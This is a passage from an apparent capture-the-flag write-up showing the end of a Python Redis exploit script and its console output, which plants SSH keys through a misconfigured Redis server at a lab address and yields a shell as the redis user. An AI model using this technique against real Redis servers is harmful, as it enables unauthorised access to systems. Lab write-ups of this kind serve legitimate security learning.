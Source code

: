      except:
        print "Something went wrong"
    else:
      print colored("\tRedis-cli:::::This utility is not present on your system. You need to install it to proceed further.", "red")

Running this script will give us a shell as redis.

    :::text
    python redis.py 10.10.10.160 redis
      *******************************************************************
      * [+] [Exploit] Exploiting misconfigured REDIS SERVER*
      * [+] AVINASH KUMAR THAPA aka "-Acid"                                
      *******************************************************************


      SSH Keys Need to be Generated
    Generating public/private rsa key pair.
    Enter file in which to save the key (/root/.ssh/id_rsa): 
    /root/.ssh/id_rsa already exists.
    Overwrite (y/n)? y
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in /root/.ssh/id_rsa.
    Your public key has been saved in /root/.ssh/id_rsa.pub.
    The key fingerprint is:
    SHA256:AXkEW81gyz1YrQfxEQw3t82W/NoAp6q8IdpYTPV8sN0 acid_creative
    The key's randomart image is:
    +---[RSA 3072]----+
    |      o+=++==..  |
    |      .*.=+oo+.+.|
    |      ..* +oo oo+|
    |       . +.=.= ..|
    |      . S +.+ E .|
    |     o     o   + |
    |      + . .   . .|
    |     = o o       |
    |    o . +.       |
    +----[SHA256]-----+
      Keys Generated Successfully
    OK
    OK
    OK
    OK
    OK
    OK
      You'll get shell in sometime..Thanks for your patience
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)
